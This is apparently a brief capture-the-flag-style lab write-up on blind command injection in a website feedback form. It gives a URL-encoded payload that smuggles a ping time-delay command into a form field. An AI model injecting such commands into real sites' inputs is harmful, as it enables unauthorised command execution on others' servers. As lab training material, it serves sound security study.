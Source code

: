 ```yaml
---
tags: ["blind", "command injection", "time delay"]
---
```


--> In this lab we have the blind command injection vuln. in feedback form so we have to make the website sleep for 10 seconds

we can make website sleep with `ping` command like this :

```bash
ping -c 10 127.0.0.1
```

--> website is executing your payload in the backend like this :

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

so i used this payload :

```bash
+%26+ping+-c+10+127.0.0.1+%26&
which get decoded to
 & ping -c 10 127.0.0.1 &
```

--> But it didn't worked in the `message`field so i tried this in every field and lmao it worked !

![](Attachments/Pastedimage20220120121437.png)

--> And we solved the lab!

![](Attachments/Pastedimage20220120120845.png)
